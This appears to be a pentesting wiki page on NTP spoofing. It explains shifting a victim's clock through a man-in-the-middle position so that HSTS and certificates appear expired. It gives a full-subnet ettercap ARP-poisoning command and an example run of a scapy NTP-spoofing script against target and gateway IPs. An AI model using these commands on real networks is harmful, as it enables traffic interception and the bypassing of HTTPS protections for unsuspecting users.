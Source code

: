 # ⭕ NTP Spoofing

Distributing accurate time is a vital part of sustaining network infrastructure. It’s also a critical element of network security, both when it comes to the expiry dates on certificates and timestamped system logs used for troubleshooting.

{% hint style="info" %}
NTP Spoofing is hard to detect and the only mitigation is NTP encryption or synchronizing network time with GPS, so this type of attack is not as obvious as ARP spoofing or other types of spoofing for that matter.
{% endhint %}

#### NTP Spoofing is done after ARP spoofing and becoming the man in the middle

#### This attack can trick the victim systems to think that the web certificates or HSTS records are expired and thus they wont trust the old records anymore, in this case the attacker can run MitM attacks such as HTTPS downgrade and HSTS bypass more successfully.

{% embed url="https://github.com/crazyarashi/ntp-spoof" %}

A scapy script for spoofing NTP responses with a MITM attack

1. ARP-Cache-Poisons the target and the gateway
2. Positions your machine between target and gateway in MITM attack
3. Listens for NTP-responses from gateway to target
4. Modifies the NTP-timestamps

#### Run ARP Spoof

```
ettercap [options] [target1] [target2]
```

example:

```
ettercap -T -q -M arp::remote /172.16.0.1-254//   /172.16.0.1-254//
```

#### Run the script:

```
sudo ./ntp-spoof.py -i [interface] -t [target ip] -g [gateway ip] -d [date-time to spoof]

# example:
sudo ./ntp-spoof.py -i enp0s25 -t 192.168.1.42 -g 192.168.1.1 -d 13:37-31.12.1983
```
